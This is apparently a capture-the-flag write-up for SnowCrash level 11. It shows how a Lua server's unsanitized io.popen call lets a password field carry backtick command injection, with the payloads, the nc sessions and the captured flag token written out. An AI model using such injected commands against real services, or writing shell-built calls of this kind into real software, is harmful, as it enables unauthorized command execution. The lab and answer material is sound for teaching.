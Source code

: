 ## BONUS: Level 11

We found a single file [level11.lua](./level11.lua) containing a server accepting connections and asking for a password which will be hashed.

Issue being that it only return `Erf nope..` if we didn't input the right pass, or `Gw you dumb*` if we get the good one.

Hinting us at the fact that the hashed pass isn't what we look for.

### Exploit

```lua
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

We have control over `pass` since it's what we send to the server after the connection is made with the server.

It uses an `echo` which means that we somehow have control over something, second issue being that it returns the output of popen in a stream `prog`.

Obviously even the `print` later in the script isn't useful since it's supposed to print server side and not client side.

Now the intersting part:

We can use a wonderfull shell command named [wall](https://linuxize.com/post/wall-command-in-linux/) which will broadcast the output of the previous command to every logged user. Which is amazing since the user connected via `nc` is considered in this list.

As we saw in this test:

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `echo lol | wall`
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 15:27 ...                                               
                                                                               
lol                                                                            
                                                                               
Erf nope..
```

When trying to echo the "lol" and piping it to `wall`. The execution of the script get broadcasted to every user connected to the machine. Moreover, the message is broadcasted as `flag11@snow` which means that it's executed as sudo (previously hinted by the `s` permissions when we used `ls -la`).

And so, here is the result:

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `echo \`getflag\` | wall`
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 15:27 ...                                               
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                      
                                                                               
Erf nope..
```

`getflag` gets executed as sudo and piped into `wall` which will broadcast the result to us and so we directly get the flag!

### Other solution

Another solution we found later which doesn't use `wall`:

```bash
level11@SnowCrash:~$ nc localhost 5151
Password: `getflag > /var/crash/pass`
Erf nope..
level11@SnowCrash:~$ cat /var/crash/pass 
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

## Flag

fa6v5ateaw21peobuub8ipe6s
